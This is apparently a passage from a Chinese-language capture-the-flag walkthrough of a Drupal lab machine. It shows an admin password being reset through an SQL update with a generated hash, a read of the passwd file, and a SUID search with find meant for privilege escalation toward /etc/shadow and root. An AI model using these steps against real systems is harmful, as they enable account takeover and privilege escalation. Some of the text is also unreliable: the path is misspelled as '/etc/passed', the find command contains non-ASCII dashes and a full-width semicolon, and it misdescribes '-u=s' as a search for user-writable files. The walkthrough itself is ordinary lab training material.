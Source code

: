 ```bash
php password-hash.sh Stan
```

![](https://z3.ax1x.com/2021/04/21/cbl24O.png)

把管理员的密码重置

```mysql
update users set pass='$S$DG0gXEYT4Va8ilpJqdXjhDoWn0j/eiLbHmitloj2.sXvmNJqTP' where name='admin';
```

![](https://z3.ax1x.com/2021/04/21/cblbUf.png)

进行登录

![](https://z3.ax1x.com/2021/04/21/cblq58.png)

![](https://z3.ax1x.com/2021/04/21/cblOPS.png)

发现 flag3

![](https://z3.ax1x.com/2021/04/21/cblzKs.png)

> Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow

大概是像 /etc/shadow 这样的特殊目录里有好东西，尝试用 find -exec 去提权来获取

# flag4

通过 /etc/passed 可以知道 /home/flag4

```bash
cat /etc/passed
```

![](https://z3.ax1x.com/2021/04/21/cb8i3F.png)

> Can you use this same method to find or access the flag in root?Probably. But perhaps it's not that easy. Or maybe it is?

最终要在 root 目录下找到最后一个 flag

# the final flag

使用 find 找具有 root 权限的 suid

```bash
find / ‐perm ‐u=s ‐type f 2>/dev/null；
```

> ‐perm 按照文件权限来查找文件
>
>  ‐u=s 基于用户可写查找
>
>  ‐type f 查找普通类型文件
